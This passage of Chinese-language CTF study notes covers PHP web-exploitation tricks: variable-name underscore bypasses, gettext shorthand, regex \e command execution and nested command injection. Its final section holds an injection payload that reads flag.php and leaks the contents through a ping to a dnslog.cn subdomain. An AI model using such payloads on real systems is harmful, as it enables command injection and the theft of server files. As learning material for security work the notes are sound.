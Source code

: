 ```
```

绕过数字

### 17 php中的变量名

PHP变量名应该只有`数字字母下划线`,同时GET或POST方式传进去的变量名,会自动将`空格` `+ . [`转换为`_`
但是有一个特性可以绕过,使变量名出现`.`之类的。特殊字符`[,` GET或POST方式传参时,变量名中的[也会被替换为_,但其后的字符就不会被替换了

### 18 扩展中的奇怪函数

#### 0x01 php_gettext.dll

https://www.php.net/manual/zh/book.gettext.php

```
_ 是gettext函数的简写
echo _("你好");
会输出你好
```

#### 0x02 查看已经定义的变量

```
get_defined_vars
globals
```

### 19 正则表达式的攻击方法

#### 0x01 \e的命令执行

https://www.cesafe.com/html/6999.html

#### 0x02 换行绕过

#### 0x03 溢出绕过

### 20 逻辑运算符的运用

```
对于“与”（&&） 运算： x && y 当x为false时，直接跳过，不执行y；
对于“或”（||） 运算 ：   x||y 当x为true时，直接跳过，不执行y。
```

### 21 套娃命令执行

![image-20210501233737118](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210501233737118.png)

虚假的命令执行。

```
?F=$F;+ping cat flag.php|awk 'NR==2'.6x1sys.dnslog.cn
```
